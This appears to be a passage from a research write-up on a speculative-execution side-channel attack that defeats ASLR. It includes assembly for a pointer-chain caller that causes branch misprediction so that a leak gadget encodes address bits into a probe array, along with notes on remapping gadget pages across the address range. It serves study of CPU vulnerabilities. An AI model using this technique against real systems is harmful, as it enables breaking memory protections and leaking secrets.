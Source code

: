 
### Challenges
There is a problem when trying to place a gadget into all possible positions at the same time. In our tests the ASLR places the destination somewhere between 0x550000000000 and 0x570000000000. Meaning that there is a 2.2TB of possible virtual address to be mapped or 537 million leak gadgets. But the system has only 8GB of RAM.
Besides being possible to map 2TB of ram using COW we haven't had much success with this approach. I suppose it creates too much pressure on the Translation Lookaside Buffer (TLB), making the speculation to a non-translated address way too slow.
In the tests we created a 1GB in memory page and filled with the leaking gadgets. Then we shifted the page across the 2TB range using the remap syscall.
Other problem observer was the fact that the speculated address was probably not present in the TLB, since it never had actually been executed. But intel manual states:
- "The processor may cache translations required for prefetches and for accesses that are a result of speculative execution that would never actually occur in the executed code path" - ISA
 
Therefore, in order to increase the chances of a "speculative induced" pagewalk we tried to make as hard as possible for the correct address to be resolved. This is done using a pointer chain for the destination address. The idea is that the CPU frontend will speculate the destination of the branch and the reorder unit will execute the leak gadget before finishing the pointer chain read.

```.asm
Improved Caller - Frontend fetched instructions
mov rcx,%1       ;mask arg for gadget
lea rsi,[%2]     ;probe array ptr arg
lea rdx,[%0]
mov rdx,[rdx]    ;pointer chain
mov rdx,[rdx]
mov rdx,[rdx]
...
mov rdx,[rdx]
mov rdx,[rdx]
check [rdx]      ;mispredicts to gadget

lea rax,[rip - 7];speculative execution
shr rax,cl
and rax,1
shl rax,12
mov dl,[rsi+rax]

```

```.asm
Improved Caller - Reorder unit scheduled instructions
mov rcx,%1    ;mask arg for gadget
lea rsi,[%2]  ;probe array ptr arg
lea rdx,[%0]
mov rdx,[rdx] ;pointer chain
mov rdx,[rdx]
; <pagewalk occurs some where here>
... ;Out of order + speculation
lea rax,[rip - 7]
shr rax,cl
and rax,1
shl rax,12
mov dl,[rsi+rax]
...
mov rdx,[rdx]
mov rdx,[rdx]
check [rdx] ;the execution path reverted

```
This technique of Out Of Order + Speculative execution showed an improvement in the desired missprediction rates in the attack
